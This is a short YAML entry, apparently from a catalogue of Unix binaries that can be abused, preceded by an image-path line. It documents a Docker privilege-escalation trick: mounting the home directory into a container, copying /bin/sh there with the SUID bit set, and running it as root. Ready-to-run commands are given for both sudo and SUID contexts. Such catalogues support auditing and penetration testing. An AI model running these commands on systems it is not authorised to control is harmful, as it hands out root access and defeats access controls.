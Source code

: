 ```yaml
---
description: |
  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
functions:
  sudo:
    - code: |
        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
  suid:
    - code: |
        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
---
```

